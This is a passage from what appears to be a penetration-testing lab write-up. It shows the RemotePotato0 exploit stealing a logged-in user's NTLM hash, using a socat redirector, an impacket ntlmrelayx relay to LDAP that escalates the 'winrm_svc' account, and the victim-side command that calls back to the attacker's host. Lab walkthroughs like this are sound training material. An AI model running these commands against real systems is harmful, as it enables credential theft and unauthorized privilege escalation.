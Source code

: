We find Tbrady and Administrator - and they just logged on/ might still be logged in

**<u>RemotePotato0</u>**

- We can leverage an exploit called **RemotePotato** to steal the hash of a logged in user
<https://github.com/antonioCoco/RemotePotato0>


![image26](../resources/0a1348e28848418e8201cf7d1282d9b8.png)

- On Kali - Set up:

```bash
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.129.169.100:9999 &&

sudo python3 impacket-ntlmrelayx -t ldap://10.129.169.100 --no-wcf-server --escalate-user winrm_svc

```

![image27](../resources/9e96bd7f67744b27ac29f66caf716d22.png)

- On the victim:

```bash
./RemotePotato0.exe -m 2 -r 10.10.14.23 -x 10.10.14.23 -p 9999

```

![image28](../resources/b3cce8c44b784e08aff2f470c4517e79.png)
